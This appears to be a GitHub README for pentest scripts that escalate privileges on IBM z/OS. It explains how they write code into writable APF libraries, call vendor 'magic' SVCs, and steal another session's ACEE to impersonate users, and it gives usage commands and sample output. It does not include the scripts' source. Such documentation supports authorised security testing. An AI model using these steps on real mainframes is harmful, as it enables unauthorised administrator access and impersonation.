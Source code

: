 # Privilege escalation on z/OS

Some scripts to quickly escalate on z/OS given certain misconfigurations.  
These techniques have been around for a while, I just stringed some code together to have something easy to use in a pentest.

## ELV.APF    
### Description
This tool will list APF authorized libraries by browsing control blocks in memory. For each library it returns the access right of the current user.  
Given a library with ALTER/UPDATE access, the script compiles an ASM program into that library and executes it to give the SPECIAL privilege to the current user.
the ASM program updates the ACEE block in memory to give temporary SPECIAL privilege, which are made permanent by a regular ALU user SPECIAL a following step.
If you want to manually specify the user getting the SPECIAL privilege, replace userid() with any user in line 104

### Usage
 ```  
 List APF libraries : ex 'ELV.APF' 'LIST'
 Get Special: ex 'ELV.APF' '<APF_LIBRARY>'  
 ```
### Credit
http://www.cbttape.org/xephon/xephonr/rac0005.pdf  
http://mzelden.com/mvsutil.html  
http://zdevops.github.io/zdosu/ 

## ELV.SVC
### Description
This tool will go through user defined SVC looking for a "magic" or "auth" SVC.  
These are SVC generally used to temporarily grant admin privileges to normal users (in some instances installed by vendors)  
ELV.SVC looks for a specific pattern in each user SVC (num > 200) and if finds one dumps the SVC's opcode.  

The tool can also be used to call this "magic" SVC to grant SPECIAL privileges to the current user. It provides the possibility to defined a constant in a register before calling the target SVC to bypass some potential checks.
If you want to change the TSO command giving special privileges, alter line 334

### Usage
 ```  
 Look for magic SVC on TSO :  
     ex 'ELV.SVC'
 Get Special using SVC 233 and placing C1C1C1C1 in register 10: 
     ex 'ELV.SVC' 'NUM=233 10=C1C1C1C1 DSN=TEST.PDS'
```  
### Credit
Got the idea from Mark Wilson @ich408i   
https://share.confex.com/share/120/webprogram/Handout/Session12275/2013%20Share%20Pen%20Testing.pdf
http://www.cbttape.org/xephon/xephonr/rac0005.pdf  
http://www.mzelden.com/mvsfiles/iplinfo.txt  


## ELV.SELF
The tool lists address spaces currently running on z/OS: started tasks, tso users and jobs  
The user can choose an address space to "impersonate" by stealing their ACEE structure.  
The tool will perform cross memory copy to steal the privileges of the target and patch the current TSO session  
Requirement : APF library with ALTER access OR "magic" SVC (see above)

### Usage
 ```  
List active address spaces  
 TSO> ex 'ELV.SELF' 'LIST'  
 
 *** Listing active address spaces ***
  
 **** Started Task - Owner *****
 NETVSSI   -
 NETVIEW   -
 NETVSAM   -
 RACF      -  START2
 JES2      -
 DLF       -
 RRS       -
 VLF       -
 LLA       -
 CICSTS32  -  START2
 RMF       -  START2
 NET       -  START2
 RMFGAT    -  START2
 TCPIP     -  TCPIP
 TSO       -  START1
 PORTMAP   -  START2
  
 **** TSO Users - Owner ****
 ZERO     -  ZERO
 IBMUSER   -  IBMUSER
  
 **** Jobs - Owner ****
 FTPD1     -  FTPD
 INETD4    -  OMVSKERN


Impresonate TSO user IBMUSER, using APF library  
TSO > ex 'ELV.SELF' 'TAR=IBMUSER APF=USER.LINKLIB'  
      
Warning: No RACF profile defined for USER.LINKLIB  
Might not be able to write to USER.LINKLIB  
Got ASID 80 for IBMUSER  
Got ASID 38 for current session  
Local ACEE at  008FC6F0  
Compiling  UNCVDDF in APF USER.LINKLIB  

TSO > LU
USER=IBMUSER  NAME=*******  OWNER=IBMUSER   CREATED=*****


Impresonate Started task CICSTS32, using magic SVC 233 (register 10 to AAAA to grant access)      
     ex 'ELV.SELF' 'TAR=CICSTS32 DSN=TEST.PDS SVC=233 10=C1C1C1C1'  
Impresonate Started task CICSTS32, using magic SVC 233     
     ex 'ELV.SELF' 'TAR=CICSTS32 DSN=TEST.PDS SVC=233'  
```  

